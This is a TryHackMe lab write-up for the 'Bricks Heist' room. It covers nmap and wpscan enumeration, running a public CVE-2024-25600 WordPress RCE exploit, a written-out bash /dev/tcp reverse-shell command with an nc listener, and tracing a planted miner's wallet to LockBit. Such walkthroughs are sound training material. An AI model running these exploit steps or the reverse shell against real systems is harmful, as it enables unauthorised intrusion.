 # 🛡️ TryHackMe Writeup – TryHack3M: Bricks Heist

> **Room URL**: https://tryhackme.com/room/tryhack3mbricksheist
> **Date Completed**:
> **Difficulty**: 🟢 Easy
---

## 📜 Room Description
Crack the code, command the exploit! Dive into the heart of the system with just an RCE CVE as your key.

---

### 🔍 **Enumeration**

1. Simple `nmap` scan to see what we could find.
  -`sudo nmap -sS -p- -Pn --vv 10.10.47.3`
  
  - `Discovered open port 443/tcp on 10.10.47.3`
  - `Discovered open port 22/tcp on 10.10.47.3`
  - `Discovered open port 3306/tcp on 10.10.47.3`
  - `Discovered open port 80/tcp on 10.10.47.3`
  
2. We have a look to see if we can find any interesting website:
   http://10.10.47.3 -> No luck, error 405
   https://10.10.47.3 -> Returns a webserver
   ![image](https://github.com/user-attachments/assets/ebae9f26-e6a1-4e11-bdb2-cfed6a903e76)

3. Appears to be a wordpress site so I ran `~ ❯ wpscan --url https://bricks.thm --disable-tls-checks --api-token <MY API TOKEN>`.
  I had to include `--disable-tls-checks` as this site does not have a valid certificate.
  This lead us to some interesting discoveries. Including a RCE vuln:
![image](https://github.com/user-attachments/assets/a130be0b-c18d-485a-8b23-a9ae718bd19f)

4. Onto Github we go, here we downloaded the code:
   https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/CVE-2024-25600.py
   We then ran the exploit:
   `~/Downloads ❯ python3 CVE-2024-25600.py`
   Success we have a shell
   `Shell>`

5. To solve the first TryHackMe question we had to locate a hidden .txt file
   `ls -a`
  This provided us with a txt file that after reading we found the first flag
  ```bash
650c844110baced87e1606453b93f22a.txt
Shell> cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```
6. The next task was to locate a suspicious service running. We had trouble with shell stability so now my task was to gain a more stable connection.
   Perhaps I should have done this first, something to consider next time.
   - On our machine we ran `nc -lnvp 8888` to start listening for an incoming connection
   - On our target machine we ran `Shell> bash -c 'exec bash -i &>/dev/tcp/10.8.121.74/8888 <&1'`
   - This gave us a much more stable shell to work with. Although it did take a few attempts as I had issues remembering how to view running processes.
  
7. Finding a suspicious process was done by running
  - `systemctl`
  - Followed by `systemctl | grep running` to narrow down the services
  - We then found the following service:
  - `ubuntu.service                                   loaded active     running   TRYHACK3M`
  - Running `systemctl status ubuntu.service` returned the following:
  - ![image](https://github.com/user-attachments/assets/0e50a08e-5b73-4098-8c7b-a201b8aab187)
  - `nm-inet-dialog` is the answer to the next TryHackMe question as this is the name of the suspicious service running!
  - `ubuntu.service` also answers the TryHackMe question: *What is the service name affiliated with the suspicious process?*

8. Now it was time to find the log file name of the miner instance to answer the next TryHackMe quesiton.
   - We headed to where the service was running `cd /lib/NetworkManager`
   - And checked the contents `ls -a`
   - There was no outright log file here but one that stands out is `inet.conf`
   - Lets read it:
   - `cat inet.conf`
   - ![image](https://github.com/user-attachments/assets/a5e42b9a-5d3c-4422-ba16-40b7d23811e6)
   - The output certainly looks like a log file. And entering `inet.conf` is correct for the log filename question.
   - Included in this log was this long string of numbers which appeared throughout:
   - ![image](https://github.com/user-attachments/assets/c3bbd096-0610-43f9-a234-1fecff3cfc8c)
   - After a bit of googling, we decided to put this into https://gchq.github.io/CyberChef/
   - Which gave us `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`
   - This almost looks like an address but is too long! On inspection I noticed it repeats itself twice. So we cut it in half
   - `bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`
   - This ended up being the correct answer and is the wallet address!

9. The last task was to find what threat group other wallets, which were involved with this wallet, were a part of.
   - This was as simple as looking online for transactions this wallet was involved in
   - Then cross checking each wallet online until something interesting came up.
   - This wallet address `bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r` was involved in the LockBit threat group and thus concluded our final question.
  
## 📖 Key Take-aways
- Most of this room was spent re-learning how to do things as it has been sometime
- It was good for understanding blind spots in my knowledge without being overly complicated
- My task now is adding to my documentation for future reference
